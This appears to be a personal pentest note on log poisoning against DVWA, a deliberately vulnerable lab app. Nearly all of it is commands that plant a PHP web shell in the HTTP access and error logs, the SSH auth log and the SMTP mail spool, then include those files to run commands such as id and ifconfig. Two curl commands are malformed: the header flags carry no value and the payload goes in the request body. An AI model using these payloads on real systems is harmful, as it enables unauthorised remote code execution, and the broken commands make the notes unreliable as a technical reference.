 # Manual

TODO: include conditions and screenshots for the attack vectors

## HTTP

### Access Log

Make a valid request with the code in the `User-Agent` header.

```
$ curl -H 'User-Agent' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local" -v
```

### Error Log

Make an invalid request, an invalid inclusion for example, with the suitable `Referer` header.

```
$ curl -H 'Referer' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local/urldoesnotexist" -v
```

## SSH

SSH logs the username of each connection. Create a connection to SSH with the suitable username.

```
$ ssh '<?php system($_GET['c']); ?>'@dvwa.local
```

```
/var/log/auth.log&cmd=ifconfig
```

## SMTP

```
$ mail -s "<?php system($_GET['cmd']);?>" www-data@dvwa.local < /dev/null
```

```
$ telnet dvwa.local 25
MAIL FROM:<test@email.com>
RCPT TO:<?php system($_GET['cmd']); ?>
```

```
$ curl http://dvwa.local/index.php?page=/var/mail/www-data&cmd=id
```

---
## References

### Backlinks

- [[Log Poisoning]]